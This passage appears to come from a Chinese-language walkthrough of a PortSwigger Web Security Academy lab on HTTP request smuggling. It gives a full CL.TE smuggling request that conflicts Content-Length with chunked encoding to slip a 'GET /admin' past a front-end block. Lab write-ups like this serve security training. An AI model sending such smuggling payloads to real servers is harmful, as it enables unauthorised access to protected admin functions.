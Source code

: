 [![](assets/1704418275-a55b5cfeab63a556f2fef1b239339bff.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240103155020-be7c67d4-aa0c-1.png)  
Step 2：访问/admin路径会发现被拦截  
[![](assets/1704418275-aa156cf57d291e1851220044490d0a33.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240103155035-c71da0ec-aa0c-1.png)  
Step 3：随后我们构造如下请求数据包并发送两次尝试请求走私

```plain
POST / HTTP/1.1
Host: 0ae3000c04275ff48012fd73008e00b8.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 37
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
X-Ignore: X
```

[![](assets/1704418275-0f805d14d49ec4910911f885dfacb693.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240103155100-d669d868-aa0c-1.png)  